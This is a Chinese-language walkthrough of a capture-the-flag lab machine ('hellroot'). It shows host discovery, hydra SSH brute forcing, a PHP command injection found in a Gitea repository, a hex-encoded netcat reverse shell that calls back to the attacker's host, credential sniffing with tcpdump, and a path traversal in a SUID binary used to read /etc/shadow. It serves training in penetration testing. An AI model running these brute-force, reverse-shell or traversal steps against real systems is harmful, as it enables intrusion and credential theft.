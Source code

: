 # **一、信息收集**

首先，对目标网段进行主机发现。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.144 08:00:27:d0:16:be       PCS Systemtechnik GmbH
...
```

确定目标主机IP为 `192.168.205.144` 后，对其进行全端口扫描，发现开放了多个服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.144
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
222/tcp  open  rsh-spx
443/tcp  open  https
5000/tcp open  upnp
...
```

# **二、捷径：SSH爆破**

在深入探索之前，发现了一个极其简单的提权路径。通过对SSH服务进行弱口令爆破，可以迅速获得root权限。

准备一个简单的用户字典：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo 'root\nadmin\n' > user
```

使用`hydra`工具和一个常用密码字典（此处为`5000q.txt`）进行爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -L user -P 5000q.txt ssh://192.168.205.144 -f -I -u -e nsr -t 64 
...
[22][ssh] host: 192.168.205.144   login: root   password: 12345
...
```

成功爆破出root用户的密码为 `12345`。直接登录即可完成靶机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh root@192.168.205.144
...
root@hellroot:~# cat /home/astro/user.txt /root/root.txt 
f220dcf45ccfc10c4c44ea8c413186f2
f039facf1ae0d69b07484df1c4da32df
```

# **三、常规路径：Web渗透**

接下来，我们探索预设的、更具挑战性的攻击路径。

## **1. Gitea代码审计**

访问目标80端口，页面为Apache默认页，无可用信息。访问443端口，发现页面跳转至 `git.hellroot.thl`。我们将此域名与目标IP绑定到 `/etc/hosts` 文件中。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tail -n 1 /etc/hosts
192.168.205.144 git.hellroot.thl
```

重新访问 `https://git.hellroot.thl`，发现是一个 Gitea 服务（版本1.24.3）。其中存在一个名为 `Astro/hellroot.thl` 的公开代码仓库。

在仓库的 `Dockerfile` 文件中，发现了一组凭据：`astro:iloveastro`。

在 `index.php` 文件中，我们审计到一段存在命令执行漏洞的代码。该代码运行在5000端口。

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && !empty($_POST['domain'])) {
    $input = trim($_POST['domain']);
    $decoded = @hex2bin($input);

    // ...

    if ($decoded !== false && ctype_print($decoded)) {
        if (strpos($decoded, ';') !== false) {
            // Remove header modification that breaks execution
            $output = shell_exec($decoded . ' 2>&1'); // 存在命令注入
        } else {
            $safeDomain = escapeshellarg($decoded);
            $output = shell_exec("nslookup $safeDomain 2>&1");
        }
    } else {
        // ...
    }
    // ...
}
?>
```

代码逻辑显示，如果POST请求的`domain`参数经过十六进制解码后包含分号`;`，则会直接拼接到`shell_exec`函数中执行，造成远程命令执行（RCE）漏洞。

## **2. RCE漏洞利用**

我们可以将任意命令转换为十六进制字符串来绕过过滤并执行。首先，测试`id;`命令，其十六进制为`69643b`。在5000端口的服务上提交该payload，成功执行。

为了获取一个交互式Shell，我们构造一个反弹Shell的payload。目标主机存在`nc`，因此使用`nc`进行反弹。

**Payload**: `nc 192.168.205.128 8888 -e /bin/bash;`
**Hex编码**: `6e63203139322e3136382e3230352e3132382038383838202d65202f62696e2f626173683b`

在Kali上开启监听，并提交上述Payload，成功接收到反弹Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888                 
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.144] 59278
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

当前用户为 `www-data`，这是一个Docker容器内的低权限用户。

# **四、Docker内提权与流量嗅探**

在当前目录下发现一个提示文件`sniff.txt`，内容为西班牙语，意为“有些工具可以让你嗅探流量”。同时在`.config/dpkg-l.txt`文件中发现系统安装了`tcpdump`。

这提示我们需要进行流量抓包。使用之前在`Dockerfile`中找到的密码 `astro:iloveastro` 切换到`astro`用户。

```bash
www-data@05cc10128c04:/var/www/html$ su astro
Password: iloveastro
$
```

查看`astro`用户的`sudo`权限，发现其可以无密码切换到root。

```bash
astro@05cc10128c04:/var/www/html$ sudo -l
...
User astro may run the following commands on 05cc10128c04:
    (ALL : ALL) NOPASSWD: /bin/su
```

切换到root用户，并使用`tcpdump`在`eth0`网卡上进行抓包。

```bash
astro@05cc10128c04:/var/www/html$ sudo su
root@05cc10128c04:/var/www/html# tcpdump -i eth0 -A -w /tmp/a.pcap
```

让`tcpdump`运行一段时间后，将抓取到的数据包`a.pcap`传送到Kali攻击机进行分析。

使用Wireshark打开`a.pcap`，通过HTTP协议过滤器，发现一个POST请求，其中包含一个登录凭据。这很可能是主机上的定时任务在执行。

*   **username**: `astro`
*   **password**: `wj2UI4f207RC58nNx31gBUiBYSPEK27JxvRNBYbP6UWZpqeoWS`

# **五、主机提权**

我们获得了主机`astro`用户的密码，现在可以从Docker容器横向移动到主机系统。

使用新密码SSH登录主机：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh astro@192.168.205.144
...
astro@hellroot:~$ 
```

登录后，寻找提权方法。首先检查SUID文件。

```bash
astro@hellroot:~$ find / -perm -4000 -type f 2>/dev/null
...
/usr/local/bin/secmonitor
/usr/local/bin/logview
...
```

发现两个可疑的自定义SUID程序：`secmonitor`和`logview`。逐一进行测试。

`logview`程序用于查看日志文件，但其实现存在目录穿越漏洞。程序会将用户输入的文件名拼接到`/var/log/`目录下，但未对`../`进行过滤。

```bash
astro@hellroot:~$ /usr/local/bin/logview /root/root.txt
[logview] Running with administrative privileges
Displaying log: /var/log//root/root.txt
fopen: No such file or directory
```

利用目录穿越漏洞，我们可以读取任意文件，例如`root.txt`。

```bash
astro@hellroot:~$ /usr/local/bin/logview ../../../root/root.txt
[logview] Running with administrative privileges
Displaying log: /var/log/../../../root/root.txt
f039facf1ae0d69b07484df1c4da32df
```

同理，我们可以读取 `/etc/shadow` 文件，获取所有用户的密码哈希。将root用户的哈希进行破解，可以得到密码为`12345`，与最初SSH爆破的结果一致。至此，通过常规路径也成功获取了root权限。